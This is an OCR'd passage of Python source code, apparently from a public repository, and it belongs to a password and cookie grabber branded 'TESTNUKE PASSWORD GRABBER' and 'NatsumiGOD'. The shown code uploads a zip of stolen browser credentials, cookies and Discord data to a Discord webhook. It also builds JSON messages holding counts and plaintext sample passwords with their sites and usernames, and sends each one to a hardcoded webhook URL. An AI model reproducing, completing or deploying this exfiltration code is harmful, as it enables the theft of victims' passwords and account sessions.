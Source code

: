                         if all_passwords or all_cookies or discord_info:
                            files = {
                                'file': open(zip_path, 'rb')
                            }
                            
                            try:
                                webhook_url = 'DISCORD WEBHOOK URL HERE'
                                response = requests.post(
                                    webhook_url,
                                    files=files,
                                    data={'content': f"**Credentials for {user_name}**", 'username': 'NatsumiGOD Data'}
                                )
                            except Exception as e:
                                if all_passwords:
                                    password_count = sum(len(p['data']) for p in all_passwords)
                                    password_summary = f"Found {password_count} passwords from {len(all_passwords)} browsers"
                                    payloads.append(json.dumps({
                                        'content': f"**Password Summary:**\n{password_summary}", 
                                        'username': 'TESTNUKE PASSWORD GRABBER', 
                                        'avatar_url': 'https://pin.it/2fAEkuMLG'
                                    }))
                                
                                if all_cookies:
                                    cookie_count = sum(len(c['data']) for c in all_cookies)
                                    cookie_summary = f"Found {cookie_count} cookies from {len(all_cookies)} browsers"
                                    payloads.append(json.dumps({
                                        'content': f"**Cookie Summary:**\n{cookie_summary}", 
                                        'username': 'TESTNUKE PASSWORD GRABBER', 
                                        'avatar_url': 'https://pin.it/2fAEkuMLG'
                                    }))
                                    
                                if password_count > 0:
                                    sample_passwords = []
                                    for browser in all_passwords[:3]:
                                        for pwd in browser['data'][:5]:
                                            sample_passwords.append({
                                                'browser': browser['platform'],
                                                'url': pwd['url'],
                                                'username': pwd['username'],
                                                'password': pwd['password']
                                            })
                                    
                                    if sample_passwords:
                                        sample_json = json.dumps(sample_passwords, indent=2)
                                        payloads.append(json.dumps({
                                            'content': f"**Password Samples:**\n```json\n{sample_json[:1900]}```", 
                                            'username': 'NatsumiGOD Password Sample', 
                                            'avatar_url': 'https://pin.it/2fAEkuMLG'
                                        }))
                        
                        for payload in payloads:
                            try:
                                headers2 = {
                                    'Content-Type': 'application/json',
                                    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11'
                                }
                                req = Request('https://discord.com/api/webhooks/1408391873252556862/IbWtMahM659QSVrTJtf2LEjnv-KOSHYPdMV_0FVFd-agIWTIVI9MkrJyOznp3M5Kdd9Z', data=payload.encode(), headers=headers2)
                                urlopen(req)
                            except: continue
                        